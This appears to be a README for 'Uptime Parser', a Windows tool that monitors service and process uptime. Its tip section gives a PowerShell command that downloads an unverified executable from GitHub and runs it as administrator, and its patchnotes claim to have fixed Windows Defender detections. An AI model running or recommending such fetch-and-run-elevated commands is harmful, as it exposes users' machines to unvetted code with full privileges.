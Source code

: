 # 🕒 Uptime Parser by Attack

A Windows monitoring tool that checks the uptime and status of specific services and processes.  
It detects restarts, delayed starts after system boot, and missing processes/services - updating the console in real time with colored output.

## Tip
Run this using powershell for easier execution:

```
$tool = "$env:TEMP\UptimeParser.exe"
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Attackgov/UptimeParser/main/UptimeParser.exe" -OutFile $tool
Start-Process -FilePath $tool -Verb RunAs
```

---
## 📋 Patchnotes
- **[+]** Ignores delayed services caused by late startup
- **[+]** Fixed Windows Defender detections

## ✨ Features
- 🔒 **Admin check** – Auto-restarts with elevation if not run as administrator  
- 🖥️ **Monitors services & processes** – Configurable list of system-critical components  
- ⏱️ **Uptime tracking** – Reports how long each service/process has been running  
- 🚨 **Detection system** – Flags missing, restarted, or late-started services/processes  
- 🎨 **Colored console output** – Easy-to-read real-time table  
- 🔄 **Auto-refresh** – Console view updates every second  

---

## 📌 Monitored Targets (Default)
- **Services:**  
  `dps`, `dnscache`, `sysmain`, `pcasvc`, `diagtrack`, `eventlog`
- **Processes:**  
  `explorer.exe`

---

## 🛠️ Requirements
- Windows 10/11  
- Administrator privileges (auto-requested if not elevated)  
- Console environment (CMD or PowerShell)  

---

## 🚀 Usage
1. Run the executable.  
2. If not elevated, the program will request admin privileges.  
3. The console displays a live status table of monitored services/processes.  

**Detection messages include:**  
- `<name> not running`  
- `<name> started after boot`  
- `<name> Restarted`  

---

## 📖 Notes
- System uptime is displayed at the bottom of the console.  
- Program runs continuously until manually closed.  
- Screen refreshes every second to keep output clean.  

---

## 👤 Author
**Attack**
